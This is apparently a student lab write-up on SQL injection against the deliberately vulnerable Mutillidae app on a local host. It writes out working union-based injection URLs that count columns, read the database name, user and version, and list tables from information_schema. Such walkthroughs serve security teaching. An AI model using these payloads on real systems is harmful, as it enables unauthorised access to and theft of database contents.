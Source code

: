 The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details 

![eh exp 810](https://github.com/swetha1510/sqlinjection/assets/120623583/1d4f8c01-db77-4b18-8d90-6f91c06350bc)

After adding the order by 6 into the existing url , the following error statement will be obtained: 

![eh exp 811](https://github.com/swetha1510/sqlinjection/assets/120623583/3da45688-930d-433b-906f-19a4c1562078)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6. 

![eh exp 812](https://github.com/swetha1510/sqlinjection/assets/120623583/48f637e6-254f-459f-bca3-64ad55a09299)

As it is having 5 columns the query worked fine and it provides the correct result 

![eh exp 813](https://github.com/swetha1510/sqlinjection/assets/120623583/5badd519-3e04-4018-993c-4be67ac79c17)


Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5). 

![eh exp 814](https://github.com/swetha1510/sqlinjection/assets/120623583/f2ba9e70-2fe5-4740-a091-2d941f38a29e)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information. 

![eh exp 815](https://github.com/swetha1510/sqlinjection/assets/120623583/d7a0152e-266e-42d7-9b2e-f497e2f1c5a4)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details 


![eh exp 816](https://github.com/swetha1510/sqlinjection/assets/120623583/e825367d-9eb6-402d-a6ee-7776d9756c1c)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details 

![eh exp 817](https://github.com/swetha1510/sqlinjection/assets/120623583/e35195c6-a312-4924-8a9c-7d4f71927e21)


The url once executed will retrieve table names from the “owasp 10” database.
